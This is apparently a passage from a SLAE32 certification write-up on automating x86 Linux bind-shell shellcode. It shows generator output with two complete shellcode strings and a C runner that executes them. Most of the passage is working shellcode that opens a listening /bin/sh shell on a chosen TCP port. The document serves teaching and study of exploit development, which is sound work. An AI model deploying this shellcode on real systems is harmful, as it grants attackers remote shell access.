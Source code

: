 If you pass the required arguments, it finally prints the shellcode which you can copy into a shellcode runner. Follows an example:

```bash
python3 script.py -p 80 -t ./template.nasm -o /tmp/output.nasm

# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 133 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb3\x01\xb1\x06\x51\x53\xb1\x02\x51\x89\xe1\xcd\x80\x4b\x53\xb7\x50\x66\x53\x31\xdb\xb3\x02\x66\x53\x89\xe1\xc0\xc3\x03\x53\x51\x89\xc6\x50\x31\xc0\xb0\x66\xc0\xcb\x03\x89\xe1\xcd\x80\xb3\x01\x6a\x01\x56\x89\xd8\xb0\x66\xc0\xc3\x02\x89\xe1\xcd\x80\xc0\xc3\x02\x53\x31\xdb\x53\x53\x56\x89\xd8\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xd9\xb3\x03\x89\xc7\x51\xb0\x3f\x89\xfb\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x89\xe1\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb8\x0b\x00\x00\x00\xcd\x80";
```

As I mentioned previously in the sidenotes, the script requires the following binaries:

- `objcopy` (from the package `binutils`)
- `nasm` (from the homonymous package)
- `ld` (The GNU linker)

The python script and the `NASM` template are stored inside the aforementioned Git repository, to be more specific they can be found in the folder [attempt/final/automation](https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/1/attempt/final/automation).

## Testing

As regards the testing phase, I decided to use the python script to generate shellcode for a Bind Shell listening on the TCP port `1234`:

```bash
python3 script.py -p 1234 -t ./template.nasm -o /tmp/output.nasm

# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 130 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb3\x01\xb1\x06\x51\x53\xb1\x02\x51\x89\xe1\xcd\x80\x4b\x53\x66\x68\x04\xd2\xb3\x02\x66\x53\x89\xe1\xc0\xc3\x03\x53\x51\x89\xc6\x50\x31\xc0\xb0\x66\xc0\xcb\x03\x89\xe1\xcd\x80\xb3\x01\x6a\x01\x56\x89\xd8\xb0\x66\xc0\xc3\x02\x89\xe1\xcd\x80\xc0\xc3\x02\x53\x31\xdb\x53\x53\x56\x89\xd8\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xd9\xb3\x03\x89\xc7\x51\xb0\x3f\x89\xfb\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x89\xe1\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";
```

To test the shellcode generated by the python script, I used the following C `shellcode runner`:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb3\x01\xb1\x06\x51\x53\xb1\x02\x51\x89\xe1\xcd\x80\x4b\x53\x66\x68\x04\xd2\xb3\x02\x66\x53\x89\xe1\xc0\xc3\x03\x53\x51\x89\xc6\x50\x31\xc0\xb0\x66\xc0\xcb\x03\x89\xe1\xcd\x80\xb3\x01\x6a\x01\x56\x89\xd8\xb0\x66\xc0\xc3\x02\x89\xe1\xcd\x80\xc0\xc3\x02\x53\x31\xdb\x53\x53\x56\x89\xd8\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xd9\xb3\x03\x89\xc7\x51\xb0\x3f\x89\xfb\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x89\xe1\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";

main() {
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```